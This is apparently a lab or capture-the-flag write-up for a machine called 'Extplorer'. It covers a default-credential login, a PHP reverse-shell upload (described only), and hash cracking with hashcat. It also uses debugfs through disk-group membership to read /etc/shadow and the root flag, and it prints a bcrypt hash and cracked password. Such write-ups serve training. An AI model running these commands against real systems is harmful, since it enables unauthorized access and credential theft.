 # Extplorer \[Inter]

## Report

Extplorer interface allows us to perform file upload to obtain a reverse shell via PHP. Extract a hash from a PHP file within web root and crack hash for user 'dora'. Dora is part of disk group which can be abused to perform system-wide read access, reading the root flag and shadow file to obtain shell as root

## Cheatsheet

```bash
hashcat -m 3200 hash.txt /opt/rockyou.txt

df -h
debugfs /dev/mapper/ubuntu--vg-ubuntu--lv [Main partition]
cat /root/proof.txt
cat /etc/shadow [crack root password]
```

## Loot

### Enumeration

192.168.53.16

#### 80

<figure><img src="../../.gitbook/assets/image (127).png" alt=""><figcaption><p>setup-config.php</p></figcaption></figure>

ffuf shows default wordpress directories and the setup seems to be a sham

{% hint style="info" %}
filemanager redirects to extplorer which logs in via admin:admin
{% endhint %}

### Attack Vectors

**/var/www/html/filemanager/config/.htusers.php - get sauce \[creds for dora]**

/var/www/html/filemanager/config/.htaccess

### PrivEsc

<div align="left"><figure><img src="../../.gitbook/assets/image (128).png" alt=""><figcaption><p>User part of disk group can be abused to read files across the entire system</p></figcaption></figure></div>

### Creds

Users

| 3200 | bcrypt $2\*$, Blowfish (Unix) |
| ---- | ----------------------------- |

'dora' '$2a$08$zyiNvVoP/UuSMgO2rKDtLuox.vYj.3hZPVYq3i4oG3/CtgET7CjjS'

dora:doraemon

### Proof

{% embed url="https://www.hackingarticles.in/disk-group-privilege-escalation/" %}
